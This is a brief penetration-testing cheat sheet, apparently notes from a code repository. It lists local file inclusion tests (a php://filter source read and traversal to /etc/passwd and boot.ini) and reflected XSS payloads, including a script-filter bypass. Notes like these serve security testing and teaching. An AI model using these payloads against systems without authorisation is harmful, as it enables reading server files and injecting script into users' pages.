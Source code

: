 Situation

```
http://<target>/index.php?parameter=value
```

#### How to Test

```
http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index
```

```
http://<target>/script.php?page=../../../../../../../../etc/passwd

```

```
http://<target>/script.php?page=../../../../../../../../boot.ini
```

#### LFI Payloads

* [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
* [Seclist LFI Intruder](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

### encode



## XSS

### Reflected

#### Simple test
This is a simple test to see what happens, this is not a prove that the field is vuln to xss

```javascript
<plaintext>
```

#### Simple XSS test

```javascript
<script>alert('Found')</script>
```

```javascript
"><script>alert(Found)</script>">
```

```javascript
<script>alert(String.fromCharCode(88,83,83))</script>
```

#### Bypass filter of tag script

`"  onload="alert(String.fromCharCode(88,83,83))`
